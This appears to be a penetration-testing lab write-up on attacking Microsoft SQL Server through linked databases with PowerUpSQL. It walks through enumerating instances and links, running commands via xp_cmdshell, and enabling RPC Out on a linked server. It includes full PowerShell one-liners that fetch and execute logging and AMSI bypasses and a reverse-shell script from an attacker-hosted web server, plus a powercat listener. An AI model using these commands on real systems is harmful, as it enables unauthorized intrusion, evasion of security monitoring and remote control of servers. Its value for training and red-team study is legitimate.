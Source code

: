 # MSSQL

## Enumeration

Use PowerupSQL to enumerate for any database in the domain

```powershell
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

<figure><img src="https://github.com/italianpenty/WriteUps/raw/main/.gitbook/assets/image%20(19).png" alt=""><figcaption></figcaption></figure>

So we have non-sysadmin access to us-mssql. Let's enumerate database links for us-mssql:

```powershell
Get-SQLServerLink -Instance <$Target> -Verbose
```

<figure><img src="https://github.com/italianpenty/WriteUps/raw/main/.gitbook/assets/image%20(20).png" alt=""><figcaption></figcaption></figure>

Use Get-SQLServerLinkCrawl from PowerUpSQL for crawling the database links automatically:

```powershell
Get-SQLServerLinkCrawl -Instance <$Target> -Verbose
```

<figure><img src="https://github.com/italianpenty/WriteUps/raw/main/.gitbook/assets/image%20(21).png" alt=""><figcaption></figcaption></figure>

## Exploitation

If xp\_cmdshell is enabled (or rpcout is true that allows us to enable xp\_cmdshell), it is possible to execute commands on any node in the database links using the below commands.

{% code overflow="wrap" %}
```powershell
Get-SQLServerLinkCrawl -Instance <$Target> -Query 'exec master..xp_cmdshell ''whoami'''
```
{% endcode %}

<figure><img src="https://github.com/italianpenty/WriteUps/raw/main/.gitbook/assets/image%20(22).png" alt=""><figcaption></figcaption></figure>

Invoke a reverse shell. Host a listener with powercat

```
. .\powercat.ps1
powercat -l -v -p 443 -t 1000
```

{% code overflow="wrap" %}
```powershell
Get-SQLServerLinkCrawl -Instance <$target> -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://192.168.100.64/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.100.64/amsibypass.txt);iex (iwr -UseBasicParsing http://192.168.100.64/Invoke-PowerShellTcpEx.ps1)"'''
```
{% endcode %}

<figure><img src="https://github.com/italianpenty/WriteUps/raw/main/.gitbook/assets/image%20(23).png" alt=""><figcaption></figcaption></figure>

### Enable RPC Out

Because the link from DB-SQLProd to DB-SQLSrv is configured to use sa. We can enable RPC Out and xp\_cmdshell on DB-SQLSrv! Run the below commands on the reverse shell we got above.

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell">Invoke-SqlCmd -Query "exec sp_serveroption @server='&#x3C;$Target>', @optname='rpc', @optvalue='TRUE'"
Invoke-SqlCmd -Query "exec sp_serveroption @server='&#x3C;$Target>', @optname='rpc out', @optvalue='TRUE'"
Invoke-SqlCmd -Query "EXECUTE ('sp_configure ''show advanced options'',1;reconfigure;') AT ""&#x3C;$Target>"""
<strong>Invoke-SqlCmd -Query "EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure') AT ""&#x3C;$Target>"""
</strong></code></pre>

and now launch a reverse shell again on the other server

{% code overflow="wrap" %}
```
Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://<$IP>/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://<$IP>/amsibypass.txt);iex (iwr -UseBasicParsing http:/<$IP>/Invoke-PowerShellTcpEx.ps1)"''' -QueryTarget <$Target>
```
{% endcode %}

<figure><img src="https://github.com/italianpenty/WriteUps/raw/main/.gitbook/assets/image%20(24).png" alt=""><figcaption></figcaption></figure>

\
